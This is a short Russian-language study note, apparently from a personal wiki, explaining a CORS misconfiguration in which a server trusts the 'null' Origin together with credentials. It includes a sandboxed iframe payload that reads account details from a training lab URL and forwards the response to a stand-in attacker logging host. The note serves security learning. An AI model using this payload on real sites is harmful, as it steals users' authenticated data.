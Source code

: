 Спецификация заголовка Origin поддерживает значение `null`. Браузеры могут отправлять значение `null`в заголовке Origin в различных необычных ситуациях:

- Перенаправления между источниками.
- Запросы из сериализованных данных.
- Запрос с использованием `file:`протокола.
- Изолированные запросы из разных источников.

Некоторые приложения могут вносить `null`источник в белый список для поддержки локальной разработки приложения. Например, предположим, что приложение получает следующий запрос кросс-источника:
```
GET /sensitive-victim-data 
Host: vulnerable-website.com 
Origin: null
```

И сервер отвечает:
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: null 
Access-Control-Allow-Credentials: true
```

В этой ситуации злоумышленник может использовать различные трюки для создания запроса кросс-источника, содержащего значение `null`в заголовке Origin. Это удовлетворит белый список, что приведет к кросс-доменному доступу. Например, это можно сделать с помощью изолированного `iframe`запроса кросс-источника в форме:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true; 
	req.send(); 
	
	function reqListener() 
	{ 
		location='https://наш-сайт-куда-нам-надо/log?key='+encodeURIComponent(this.responseText); 
	}; 
</script>">
</iframe>
```

#### Лаба
[[Лабораторная работа Уязвимость CORS с доверенным нулевым источником]]


